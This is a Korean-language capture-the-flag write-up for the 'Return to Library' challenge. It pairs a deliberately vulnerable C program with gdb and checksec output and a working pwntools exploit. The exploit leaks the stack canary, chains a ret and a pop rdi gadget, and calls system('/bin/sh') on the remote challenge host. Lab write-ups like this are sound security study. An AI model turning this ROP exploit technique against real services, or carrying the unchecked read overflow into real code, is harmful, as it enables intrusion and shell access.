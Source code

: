 ## Return to Library
---

```c
// Name: rtl.c
// Compile: gcc -o rtl rtl.c -fno-PIE -no-pie

#include <stdio.h>
#include <unistd.h>

const char* binsh = "/bin/sh";

int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Add system function to plt's entry
  system("echo 'system@plt");

  // Leak canary
  printf("[1] Leak Canary\n");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Overwrite return address
  printf("[2] Overwrite return address\n");
  printf("Buf: ");
  read(0, buf, 0x100);

  return 0;
}
```

<br><br>

## Solution
---

gdb로 확인해보니 read에서 ```rbp-0x40```부터 입력을 받으므로 입력을 ```(0x40-0x8 = 0x38)```만큼 해주면 카나리릭 코드에서 카나리를 볼 수 있다.

<br>

```shell
   0x0000000000400772 <+123>:   lea    rax,[rbp-0x40]
   0x0000000000400776 <+127>:   mov    edx,0x100
   0x000000000040077b <+132>:   mov    rsi,rax
   0x000000000040077e <+135>:   mov    edi,0x0
   0x0000000000400783 <+140>:   call   0x4005f0 <read@plt>
```

<br>

이제 ovewrite를 해줘야하는데, checksec을 통해 확인해보면 NX가 걸려있고 확인해보면 스택에 실행권한이 없음을 알 수 있다.

<br>

```shell
pwndbg> checksec
[*] '/home/index/rtl/rtl'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

<br>

걸려있는 보호기법은 ASLR, NX가 있다고 생각하면 된다.

<br>

![image](https://user-images.githubusercontent.com/52172169/185142486-06b26012-03df-431a-a86f-391e80aa1c6b.png)

<br>

이 부분부터는 강의 내용을 토대로 정리..

ASLR이 걸려있으나, PIE는 걸려있지 않으므로 plt의 주소는 고정이 된다.

코드를 보면 이미 system 함수가 사용이 되었으므로 plt에 추가가 되어있다.

또한 코드 내에서 ```/bin/sh``` 문자열이 전역변수로 선언되어 있다.

PIE가 없기 때문에 데이터 영역과 코드 영역의 주소는 고정되어 있으므로 /bin/sh 문자열의 주소는 고정이다.

system 함수의 주소와 문자열의 주소는 아래와 같이 찾을 수 있다.

<br>

```
pwndbg> plt
0x4005b0: puts@plt
0x4005c0: __stack_chk_fail@plt
0x4005d0: system@plt
0x4005e0: printf@plt
0x4005f0: read@plt
0x400600: setvbuf@plt

pwndbg> search /bin/sh
rtl             0x400874 0x68732f6e69622f /* '/bin/sh' */
rtl             0x600874 0x68732f6e69622f /* '/bin/sh' */
libc-2.31.so    0x7ffff7f7f5bd 0x68732f6e69622f /* '/bin/sh' */
```

<br>

pwntools를 이용해서 찾을 수도 있어서 pwntools로 가져왔다.

따라서 system plt 주소에 인자로 /bin/sh를 주면 되는데, 64비트에서는 함수의 인자는 rdi에 담긴다.

따라서 rdi 가젯을 찾아야 한다.

```ROPgadget --binary ./rtl --re "pop rdi"```

<br>

여기서 한가지 주의할 점은, system 함수로 rip가 이동할 때, 스택은 반드시 0x10단위로 정렬되어 있어야 한다는 것이라고 한다.

이는 system 함수 내부에 있는 movaps 명령어 때문인데, 이 명령어는 스택이 0x10단위로 정렬되어 있지 않으면 Segmentation Fault를 발생시킨다고 한다.

따라서 ret 가젯을 찾으면 된다고 한다..

<br>

```python
from pwn import *

# p = process('./rtl')

p = remote('host3.dreamhack.games',13227)

elf = ELF('./rtl')

canary_leak_payload = b"A"*0x39
p.sendafter(b"Buf: ",canary_leak_payload)

p.recvuntil(canary_leak_payload)
canary = u64(b"\x00"+ p.recvn(7))
print("[+] Canary : ",canary)


system_plt_addr = elf.plt['system']
binsh = next(elf.search(b'/bin/sh\x00'))
pop_rdi = 0x0000000000400853
ret = 0x0000000000400285

print("[+] system@plt: ", hex(system_plt_addr))
print("[+] /bin/sh : ", hex(binsh))

overwrite_payload = b"A"*0x38 + p64(canary) + b"B"*0x8 + p64(ret)+p64(pop_rdi) + p64(binsh)+ p64(system_plt_addr)

p.send(overwrite_payload)
p.interactive()
```
